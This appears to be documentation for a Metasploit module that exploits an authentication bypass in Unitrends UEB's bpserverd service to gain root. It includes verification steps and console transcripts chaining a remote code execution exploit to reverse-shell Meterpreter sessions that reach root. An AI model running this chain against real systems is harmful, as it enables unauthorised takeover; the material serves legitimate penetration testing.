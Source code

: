 ## Vulnerable Application

It was discovered that the Unitrends `bpserverd` proprietary protocol, as exposed via `xinetd`,
has an issue in which its authentication can be bypassed.  A remote attacker could use this
issue to execute arbitrary commands with root privilege on the target system.
This is very similar to `exploits/linux/misc/ueb9_bpserverd` however it runs against the
`localhost` by dropping a python script on the local file system.  Unitrends stopped
`bpserverd` from listening remotely on version 10.

## Vulnerable Application

This module has been tested successfully on:
  * UEB 9.2
  * UEB 10.0

## Verification Steps

  1. Get a user shell with `exploit/linux/http/ueb_api_rce` with `set target 1`
  2. ```use exploit/linux/local/ueb_bpserverd_privesc ```
  3. ```set session [SESSION]```
  4. ```exploit```
  5. A root meterpreter session should have been opened successfully

## Scenarios

### UEB 10.0 on CentOS 6.5

```
msf > use exploit/linux/local/ueb_priv_esc
msf exploit(linux/local/ueb_priv_esc) > set session 4
session => 4
msf exploit(linux/local/ueb_priv_esc) > exploit

[*] Started reverse TCP handler on 15.0.0.177:4444
[*] Writing payload executable to '/tmp/pEFoythF'
[*] Writing privesc script to '/tmp/CTZSovJR'
[*] Fixing permissions
[*] Sending stage (857352 bytes) to 10.20.1.202
[*] Meterpreter session 5 opened (15.0.0.177:4444 -> 10.20.1.202:45188) at 2018-04-27 16:44:28 -0400
[+] Deleted /tmp/pEFoythF
[+] Deleted /tmp/CTZSovJR

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

### UEB 9.2 on CentOS 6

```
resource (ueb_priv.rb)> use exploit/linux/http/ueb_api_rce
resource (ueb_priv.rb)> set rhost 1.1.1.1
rhost => 1.1.1.1
resource (ueb_priv.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (ueb_priv.rb)> set target 1
target => 1
resource (ueb_priv.rb)> run
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:443 - Sending requests to UEB...
[*] Command Stager progress -  19.76% done (164/830 bytes)
[*] Command Stager progress -  39.16% done (325/830 bytes)
[*] Command Stager progress -  56.87% done (472/830 bytes)
[*] Command Stager progress -  74.82% done (621/830 bytes)
[*] Command Stager progress -  92.77% done (770/830 bytes)
[*] Command Stager progress - 110.48% done (917/830 bytes)
[*] Sending stage (861480 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:40216) at 2018-11-15 20:03:46 -0500
[*] Command Stager progress - 126.63% done (1051/830 bytes)

meterpreter > getuid
Server username: uid=48, gid=48, euid=48, egid=48
meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Red Hat 6.5 (Linux 2.6.32-573.26.1.el6.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
resource (ueb_priv.rb)> use exploit/linux/local/ueb_bpserverd_privesc
resource (ueb_priv.rb)> set session 1
session => 1
resource (ueb_priv.rb)> run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Writing payload executable to '/tmp/.mM0iyQvoAO'
[*] Writing privesc script to '/tmp/.sDjn0m'
[*] Fixing permissions
[*] Sending stage (861480 bytes) to 1.1.1.1
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:40219) at 2018-11-15 20:04:21 -0500

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

